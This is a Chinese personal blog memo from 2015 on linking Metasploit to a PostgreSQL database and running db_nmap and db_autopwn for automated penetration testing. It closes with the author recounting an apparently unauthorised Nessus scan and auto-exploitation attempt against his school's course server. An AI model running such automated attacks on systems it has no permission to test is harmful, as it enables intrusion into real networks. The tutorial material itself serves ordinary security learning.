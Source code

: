 ```yaml
---
layout:     post
title:      Metasploit连通数据库
date:       2015-12-01 11:40:25
author:     Hsmouc
summary:    postgres数据库的使用以及实现自动化攻击
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

- 最近的事情真的有点多-_-#在搞飞思卡尔的比赛，在搞学院的本科生研究发展计划，在学习蛋疼的模电，在搞入侵测试233，貌似接下来两周还有一个c++考试和英语六级…… 好长时间不写博客，也好长时间没写代码了。昨天在Kali Linux上尝试了下连通postgres数据库并进行了自动化攻击测试。这篇算是一个小小的备忘录。
<h2>Linux上PostgreSQL的启用</h2>
终端命令:
{% highlight c %}
service postgresql start
{% endhighlight %}
<h2>数据库配置</h2>
设置密码:
{% highlight c %}
sudo -u postgres psql postgres
{% endhighlight %}
进入数据库:
{% highlight c %}
su postgres
{% endhighlight %}
创建用户和设置密码:
{% highlight c %}
createuser user -P
{% endhighlight %}
<h2>Metasploit配置</h2>
{% highlight c %}
$ msfconsole
msf > db_connect  //可以不输入后面的参数，它会给例子
msf > db_hosts    //列出数据库中的hosts
msf > db_status   //查看数据库状态
msf > db_hosts -d <ip> //删除数据中的某个host
{% endhighlight %}
<h2>自动化渗透流程</h2>
Nmap扫描，结果保存在数据库中:
{% highlight c %}
db_nmap -v -A -n <ip>   //参数根据你的需要
{% endhighlight %}
查看数据库中的hosts，建议留一个host渗透:-)
{% highlight c %}
db_hosts
{% endhighlight %}
载入自动化攻击模块，并使用:
{% highlight c %}
load db_autopwn
db_autopwn -t -p -r -e
{% endhighlight %}
msf会提示你它不建议你使用这个，原因不清楚。我想大概是有违Hack精神吧233，毕竟脚本是人家写的。  
- 我前两天用Nessus顺便扫了下学校的C语言课程的服务器，跑着Windows Server 2003的系统，还有Apache，貌似漏洞一堆还开了VNC服务，我尝试用了自动化渗透工具搞了一下，并没有sessions。所以说自动化渗透的成功率是相当低的。不管怎么说，metasploit还是有很多东西需要学习的，怎么能懒到搞自动化渗透呢233